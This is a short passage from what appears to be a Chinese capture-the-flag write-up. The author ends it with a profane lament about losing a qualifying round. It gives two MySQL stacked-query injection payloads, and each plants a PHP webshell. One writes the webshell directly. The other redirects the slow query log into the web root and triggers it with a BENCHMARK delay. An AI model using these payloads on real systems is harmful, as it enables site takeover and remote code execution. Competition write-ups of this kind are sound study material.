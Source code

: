 ```sql
1);select '<?php $_REQUEST[a]($_REQUEST[b])?>';--+
```

或者用benchmark这样的函数延长执行时间

```sql
1);set GLOBAL slow_query_log_file='/var/www/html/helpyou2findflag.php';set GLOBAL slow_query_log=on;set GLOBAL log_queries_not_using_indexes=on;select 0x3c3f706870206576616c28245f504f53545b315d293b3f3e from mysql.db where BENCHMARK(5000000000,MD5(0x5476556d));%23
```

flag位于/home/rainbow/ssh.log

------

比赛能暴露出我太多短板了，问题挺大的

首先是容易手忙脚乱，第二是他妈的跟个脑瘫一样找到原题都不会变通，第三是就会瞎bb不会学java，第四是缺乏跟队友的沟通

就差一题就进线下了，这一题就折在我这里，真是我全责，真的很对不起另外的pwn爷和密码爷，太丢人了，我先磕一个，然后给自己两拳

太他妈可惜了，草
